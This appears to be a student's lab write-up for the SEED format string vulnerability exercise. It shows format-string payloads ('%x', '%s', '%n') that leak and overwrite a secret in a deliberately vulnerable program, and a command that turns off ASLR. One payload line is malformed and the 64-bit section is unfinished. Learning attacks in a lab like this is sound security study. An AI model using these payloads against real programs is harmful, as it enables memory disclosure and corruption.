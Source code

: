 Format String Vulnerability Lab
===============================

http://www.cis.syr.edu/~wedu/seed/Labs\_12.04/Software/Format\_String/

Lab1
----

Files:

-  Makefile
-  vul\_prog.c

Summary
~~~~~~~

``vul_prog.c`` give a malloced array ``secret`` and asked you to get the
value of ``scret[1]`` and overwrite it. I can do that when this program
compiled as 32 bits but there still some unsolved problems in 64 bit.

``vul_prog.c`` give us the address of ``secret`` every times, it means
that ASLR is no longer vaild.

below is the varibles memory layout of vul\_prog in my machine:

::

    gcc -m32 -z execstack -fno-stack-protector vul_prog.c -o vul_prog.out
    sizeof(int) 4
    userinput 0xffc6131c
    secret 0xffc61314
    int_input 0xffc61310
    a 0xffc6130c
    b 0xffc61308
    c 0xffc61304
    d 0xffc6133e
    The variable secret's address is 0xffc61318 (on stack)
    The variable secret's value is 0x 804a410 (on heap)
    secret[0]'s address is 0x 804a410 (on heap)
    secret[1]'s address is 0x 804a414 (on heap)
    Please enter a decimal integer
    ...
    Please enter a string
    ...
    The original secrets: 0x44 -- 0x55
    The new secrets:      0x44 -- 0x55

    Doubt: I don't know why there are 8 bytes between ``user_input`` and
    ``int_input``

Access varible
~~~~~~~~~~~~~~

::

    printf("Please enter a decimal integer\n");
    scanf("%d", &int_input);  /* getting an input from user */
    printf("Please enter a string\n");
    scanf("%s", user_input); /* getting a string from user */

    /* Vulnerable place */
    printf(user_input);
    printf("\n");

As you see, ``printf`` print a user-input string without any parameter
(IT IS DANGREOUS), we can use it to access varible on stack.

first, find the location of ``int_input``:

::

    $ make
    $ python -c "print('57005'); print('%x-'*20)" | ./vul_prog.out | grep dead
    ...
    ffa49ddc-ffa49dc8-ffa49dc4-ffa49dfe-1-c2-f75b21c3-ffa49dfe-dead-804b010-252d7825- ...
                                                               ^^^^ ^^^^^^^
    ...

    57005 = 0xdead

so we can access ``int_input`` by input string ``'%x'*9``, and
``secret`` can be accessd by ``'%x'*10``.

How to get the value of ``scret[0]``?

::

    $ python -c "print('57005'); print('%x-'*9 + '%s')" | ./vul_prog.out
    ...
    ffd6f1fc-ffd6f1e8-ffd6f1e4-ffd6f21e-1-c2-f76061c3-ffd6f21e-dead-D
                                                                    ^
    ...

``hex(ord('D'))`` is ``0x44``, the vaule of ``secret[0]``.

How to get the value of ``scret[1]``?

We can control the value of ``int_input``, and we know the address of
``secret[1]`` (from the output of program), more convience, we can close
ASLR so that we don't need to input the variable address everytime.

::

    $ su -c 'echo 0 > /proc/sys/kernel/randomize_va_space'

    randomize\_va\_space values

    1. Disable ASLR. This setting is applied if the kernel is booted
       with the norandmaps boot parameter
    2. Randomize the positions of the stack, virtual dynamic shared
       object (VDSO) page, and shared memory regions. The base address
       of the data segment is located immediately after the end of the
       executable code segment
    3. Randomize the positions of the stack, VDSO page, shared memory
       regions, and the data segment. This is the default setting.

Address of ``secret[1]`` is 0x804a414, converts to decimal is 134521876:

::

    $ python -c "print('134521876'); print('%x-'*8 + '%s')" | ./vul_prog.out
    ...
    ffc6131c-ffc61308-ffc61304-ffc6133e-1-c2-f75921c3-ffc6133e-U
                                                               ^
    ...

``hex(ord('U'))`` is ``0x55``, the vaule of ``secret[1]``.

Overwrite varible
~~~~~~~~~~~~~~~~~

    %n: Nothing printed. The corresponding argument must be a pointer to
    a signed int. The number of characters written so far is stored in
    the pointed location.

Use ``%n`` write a vaule to ``scret[1]``:

::

    $ python -c "print('134521876'); print('%x-'*8 + '%n')" | ./vul_prog.out
    ...
    ff9efafc-ff9efae8-ff9efae4-ff9efb1e-1-c2-f76671c3-ff9efb1e-
    The original secrets: 0x44 -- 0x55
    The new secrets:      0x44 -- 0x3b
                                  ^^^^

``secret[1]`` has changed to 0x3b

Write a arbitrary (?) value to ``scret[1]`` (by controlling the length
of output string):

::

    $ python -c "print('134521876'); print('%x-'*8 + '0'*+ '%n')" | ./vul_prog.out
    ...
    ff868acc-ff868ab8-ff868ab4-ff868aee-1-c2-f762c1c3-ff868aee-00000000000 ...
    The original secrets: 0x44 -- 0x55
    The new secrets:      0x44 -- 0x233
                                  ^^^^^
    [1]    3824 done                              python -c "print('134521876'); print('%x-'*8 + '0'*504 + '%n')" |
           3825 segmentation fault (core dumped)  ./vul_prog.out

It seem that the value can no smaller then 0x3b, and too large string
will causes segmentation fault. (is it right?)

64 bit
~~~~~~

To get a 64bit executable, invoke ``make ARCH=64 vul_prog.out``

Memory layout:

::

    sizeof(int *): 8
    userinput 0x7fffffffe550
    secret 0x7fffffffe548
    int_input 0x7fffffffe544
    a 0x7fffffffe540
    b 0x7fffffffe53c
    c 0x7fffffffe538
    d 0x7fffffffe534
    The variable secret's address is 0xffffe548 (on stack)
    The variable secret's value is 0x  601420 (on heap)
    secret[0]'s address is 0x  601420 (on heap)
    secret[1]'s address is 0x  601424 (on heap)

    NOTE: size of x64 stack cell is 8 byte, sizeof(int) = 4, sizeof(int
    \*) = 8

::

     high                low
    |-----------------------|
    |         secret        |
    |-----------------------|
    | int_input |     a     |
    |-----------------------|
    |     b     |     c     |
    |-----------------------|
    |     d     |           |
    |-----------------------|
     low

Access ``secret[0]``:

::

    $ python -c "print('57005'); print('%016lx-'*10 + '%s')" | ./vul_prog.out
    ...
    0000000000000001-00007ffff7dd5770-000000000000000a-0000000000400a30-0000000000000000-\
    00007fffffffe6a8-0000000100000000-0000000400000000-0000000200000003-0000dead00000001-D
                                                                            ^^^^         ^
    ...

Overwrite ``secret[1]``: // TODO

::

    python -c "print('57005'); print('\x24\x14\x60\x60\x00'+ '%016lx-' * 12)" | ./vul_prog.out

Lab2
----

// TODO
